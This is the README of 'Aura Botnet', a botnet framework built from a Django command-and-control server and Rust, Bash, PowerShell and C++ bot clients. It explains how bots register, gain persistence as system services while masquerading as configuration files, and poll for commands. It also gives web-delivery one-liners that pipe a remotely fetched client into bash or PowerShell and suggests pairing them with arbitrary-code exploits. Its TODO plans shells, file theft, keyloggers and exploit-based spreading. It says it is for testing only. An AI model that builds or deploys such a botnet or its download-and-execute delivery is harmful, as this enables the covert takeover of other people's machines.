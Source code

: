 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the `django-server`
folder.
* Django includes a very intuitive and powerful admin console that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin console located at `http://your_server:django_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The Django server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in the *settings.py*
file under `django-server/aura`. You may wish to use MySQL, or even PostgreSQL
instead; this easy to do thanks to Django's portable database API.

Bot Clients
---
The primary clients for Windows and Linux are written in Rust. Alternate clients
are written in Bash and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
To initialize the SQLite3 database, simply change into the `django-server`
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin console by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin console can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver
```
`runserver` is just a wrapper around `./manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
You can choose whichever client you feel is most appropriate for the platoform
and use case.

For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the client directory (`client/rust-linux` or
`client/rust-windows`) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

For the C++ client, change into the client directory `alt-client/cpp/cpp-linux`
and run `make`.

The Powershell and Bash clients simply need to be executed on the target
machine.

The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

Configuring Commands
---

These can easily be managed through the Django shell or admin console. The
client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `django-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Create Docker image for C2 server
- Finish C++ client using Win32 API
- Cleanup code styling and optimize Django views
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Create clients for mobile devices
- Implement compatibility with running C2 server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>
